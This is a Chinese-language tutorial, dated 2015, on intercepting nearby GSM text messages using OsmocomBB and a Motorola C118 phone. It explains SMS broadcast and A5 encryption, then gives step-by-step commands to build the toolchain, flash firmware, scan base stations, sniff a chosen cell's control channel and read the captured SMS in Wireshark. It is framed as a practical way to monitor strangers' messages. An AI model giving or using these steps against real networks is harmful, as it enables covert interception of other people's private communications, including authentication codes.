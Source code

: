 ```yaml
---
description: 通过osmocombb实现对同基站的短信监控，并介绍短信的工作原理和GSM加密算法及短信嗅探实践。
---
```

# 短信嗅探

Feei <feei#feei.cn> 09/2015

## 0x01 背景知识

短信嗅探技术在2011年就非常成熟，如今实现的成本也非常低廉，几十块的手机即可监控附近的短信息！

![GSM工作流程](images/sms_sniffer_gsm.gif)

**短信工作原理**

2G短信的传播方式有点类似Wi-Fi，基站对应的是路由器，而我们手机对应的是电脑。
当我们手机开机时，会主动搜索附近的基站信息，并根据SIM卡选择对应的运营商基站。连上基站获取到信号后，当有短信或者电话过来时，基站是通过广播的方式发给附近的所有人，但我们手机会有一道验证过程，这个过程会保证我们只能收到自己手机号的短信和电话。
如果我们绕过这道逻辑，便可以监控经过这个基站的所有短信和电话了。那我们如何绕过手机的这道验证呢，已经有一套成熟的开源解决方案了。

**GSM加密算法**

GSM加密采用A5算法，A5算法1989年由法国人开发，是一种序列密码，它是欧洲GSM标准中规定的加密算法，专用于数字蜂窝移动电话的加密，用于对从电话到基站连接的加密。A5的特点是效率高，适合硬件上高效实现。
A5发展至今，有A5/1、A5/2、A5/3、A5/4、A5/5、A5/6、A5/7等7个版本，目前GSM终端一般都支持A5/1和A5/3，A5/4以上基本不涉及。值得注意的是，A5/2是被故意弱化强度的版本，专用于出口给友邦，2006年后被强制叫停，终端不允许支持A5/2。


**名词解释**
- MS：Mobile Station，移动终端；
- IMSI：International Mobile Subscriber Identity，国际移动用户标识号，是TD系统分给用户的唯一标识号，它存储在SIM卡、HLR/VLR中，最多由15个数字组成；
- MCC：Mobile Country Code，是移动用户的国家号，中国是460；
- MNC：Mobile Network Code ，是移动用户的所属PLMN网号，中国移动为00、02，中国联通为01；
- MSIN：Mobile Subscriber Identification Number，是移动用户标识；
- NMSI：National Mobile Subscriber Identification，是在某一国家内MS唯一的识别码；
- BTS：Base Transceiver Station，基站收发器；
- BSC：Base Station Controller，基站控制器；
- MSC：Mobile Switching Center，移动交换中心。移动网络完成呼叫连接、过区切换控制、无线信道管理等功能的设备，同时也是移动网与公用电话交换网(PSTN)、综合业务数字网(ISDN)等固定网的接口设备；
- HLR：Home location register。保存用户的基本信息，如你的SIM的卡号、手机号码、签约信息等，和动态信息，如当前的位置、是否已经关机等；
- VLR：Visiting location register，保存的是用户的动态信息和状态信息，以及从HLR下载的用户的签约信息；
- CCCH：Common Control CHannel，公共控制信道。是一种“一点对多点”的双向控制信道，其用途是在呼叫接续阶段，传输链路连接所需要的控制信令与信息。


**运行过程**
- MS（手机）向系统请求分配信令信道（SDCCH）；
- MSC收到手机发来的IMSI可及消息；
- MSC将IMSI可及信息再发送给VLR，VLR将IMSI不可及标记更新为IMSI可及；
- VLR反馈MSC可及信息信号；
- MSC再将反馈信号发给手机。
- MS倾向信号强的BTS，使用哪种算法由基站决定，这也导致了可以用伪基站进行攻击。


## 0x02 着手实践

**准备工作**

- OsmocomBB - OsmocomBB(Open source mobile communication Baseband)是GSM协议栈(Protocols stack)的开源实现。
- 电脑 - 各Linux版本都可以，这次我们选择Backtrack5
- 手机 - 我们这次选用国内最容易买到的摩托罗拉C118手机
- 耳机线
- USB2TTL线


**运行环境**

建议在BackTrack或Kali系统下操作
```bash
# 安装依赖
sudo apt-get install libtool shtool autoconf git-core pkg-config make gcc build-essential libgmp3-dev libmpfr-dev libx11-6 libx11-dev texinfo flex bison libncurses5 libncurses5-dbg libncurses5-dev libncursesw5 libncursesw5-dbg libncursesw5-dev zlibc zlib1g-dev libmpfr4 libmpc-dev  

# 下载源码
git clone git://git.osmocom.org/osmocom-bb.git  
git clone git://git.osmocom.org/libosmocore.git

# 编译libosmocore
cd ~/libosmocore  
autoreconf -i  
./configure  
make  
sudo make install

# 编译libosmocore
cd ~/osmocom-bb  
git checkout --track origin/luca/gsmmap  
cd src  
make
```

**短信截包**

将`USB2TTL`接到电脑，把耳机线一头接到手机，另外一头接到`USB2TTL`上。

```bash
# 查看手机连接状态
lsmod | grep usb

cd ~/osmocom-bb/src/host/osmocon/  
./osmocon -m c123xor -p /dev/ttyUSB0 ../../target/firmware/board/compal_e88/layer1.compalram.bin

# 再开一个终端查看可用基站
cd ~/osmocom-bb/src/host/layer23/src/misc/  
./cell_log

# 嗅探指定基站
cd ~/osmocom-bb/src/host/layer23/src/misc/  
./ccch_scan -i 127.0.0.1 -a 117

# 再开一个终端窗口查看嗅探结果
sudo wireshark -k -i lo -f 'port 4729'  
```

过滤只显示gsm_sms即可看到嗅探结果。

![短信嗅探配件](images/sms_sniffer_parts.jpg)

![短信嗅探手机](images/sms_sniffer_phone.jpg)
![短信嗅探手机](images/sms_sniffer_phone2.jpg)
![嗅探测试结果](images/sms_sniffer_result.jpg)

**参考**

- [OSMOCOMBB新手指南](http://wulujia.com/2013/11/10/OsmocomBB-Guide/)
- [OsmocomBB](http://bb.osmocom.org/trac/wiki/Hardware/Phones)
- [GSM](http://www.tutorialspoint.com/gsm/gsm_architecture.htm)
